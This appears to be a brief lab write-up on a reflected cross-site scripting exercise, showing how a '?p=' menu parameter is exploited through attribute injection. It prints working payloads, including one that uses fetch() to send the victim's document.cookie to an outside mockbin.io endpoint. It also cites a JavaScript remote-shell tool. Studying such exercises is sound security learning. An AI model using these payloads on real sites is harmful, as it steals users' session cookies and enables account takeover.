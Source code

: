 # XSS - Reflected

## Initial Attempt

No way to inject any code on the first look, no forms, no inputs but then I realized the menu redirects using the `?p=` parameter.

```javascript
p=<img src=x onerror="alert(1);" />
```

Problem: Nothing happens

## Adding events

So I tried a lot of payloads but none of them seemed to work, it would just print as it is. However injecting the payload as attribute did work.

```javascript
?p=exp' onmouseover='alert(1)
```

Had to encode the quotes as `%22` for this to work else the quotes would just get paired up when rendered in html

```javascript
?p=xss' 'onmouseover='fetch(%22https://b5e02d613ca44b7384e0290125a1448e.api.mockbin.io/?cook=%22.concat(document.cookie))
```

## Notes

Solutions mentioned on the website offer very creative ways to harvest the cookie

## References

- [php's htmlspecialchars()](https://www.php.net/manual/en/function.htmlspecialchars.php)
- [Relative Path Override](http://www.thespanner.co.uk/2014/03/21/rpo/)
- [shelld3v/JSshell](https://github.com/shelld3v/JSshell)
